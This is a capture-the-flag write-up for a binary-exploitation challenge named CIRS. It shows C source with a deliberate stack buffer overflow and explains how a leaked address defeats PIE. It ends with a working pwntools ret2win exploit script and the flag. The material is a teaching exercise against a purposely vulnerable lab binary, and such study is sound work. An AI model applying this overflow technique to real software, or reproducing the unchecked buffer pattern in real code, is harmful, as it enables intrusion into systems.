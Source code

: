 # CIRS

First, lets start off with the code given to us first

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cirs -g -fno-stack-protector -Wno-stringop-overflow cirs.c

unsigned long report_number = 0;

void setup() //nothing interesting here
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28]; //character array variable of size 28
    printf("Please input your student ID: ");
    fgets(input, 28, stdin); //written to input variable
    printf("Please describe the incident: ");
    fgets(input, 256, stdin); //written to input variable
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

//in a ret2win scenario, this is your win function
void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xa2cdde); // seeds the rand() function with the seed 
    report_number = rand(); //random report number
    printf("Welcome to the Cyber Incident Reporting System (CIRS)\n");
    printf("Case number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

## Running CheckSec
```
└─$ checksec cirs
[*] '/mnt/d/D_Drive/challenge/service-cirs/service/cirs'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
    Debuginfo:  Yes
```

From this, we can see that NX is enabled and PIE is enabled
PIE stands for Position Independent Executable, which means that everytime the binary is ran, it gets loaded into a different memory address.  
In a binary with PIE, things like function addresses are saved as an offset, and when the program is run, a randomnised base address will be generated and the function location during runtime would be equal to `base address + offset`

## Find the Base Address

Since the C file is given, you can recompile it without PIE using `gcc -o cirs_patched -g -no-pie -fno-stack-protector -Wno-stringop-overflow cirs.c`
```
└─$ ./cirs_patched
Welcome to the Cyber Incident Reporting System (CIRS)
Case number: #4210832
Please input your student ID:
```

Thus we have a static value case number, which is `0x404090` in hex
this is where we can set `binary.address = (PIERand - 0x404090)`

If we assume the PIE base to be used in the function like
```py
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand)) 

binary.address = (PIERand - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')
```

Which we will obtain as `PIE base: 0x55d758e4a000`  

By disassembling the admin function  
![image-1.png](image-1.png)  
We can see a whole lot of addresses here, but the important ones are used below  

![image.png](image.png)  
There is a difference of 0x400000 between the actual base address and the calculated one

Thus, when writing our script, our binary address will be
`binary.address = (PIERand + 0x400000 - 0x404090)`

Thus the final script will be
```py
from pwn import *

context.binary = binary = ELF("./cirs")
p = process()
#p = remote("0.0.0.0", 10000)

# Get the report number from the output
p.recvuntil("Case number: #")
reportNumber = p.recvuntil("\n")
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand))

# Update our base address
binary.address = (PIERand + 0x400000 - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')

# Write our payload
hidden_function = p64(binary.symbols.admin)
p.recvuntil(b"student ID:")
p.sendline(b"aaa")
p.recvuntil(b"incident:")
payload = b"A" * (40) + hidden_function

p.sendline(payload)
p.interactive()

```

which should output the flag, `YCEP25{I_L0ve_eat1ng_i_m3an_ropp1ng_PIE}`

Adapted from https://riantheduckquack.gitbook.io/ctf-thingys/challenge-writeups/blahajctf-2023/pwn/cars (Thanks Rian!!)

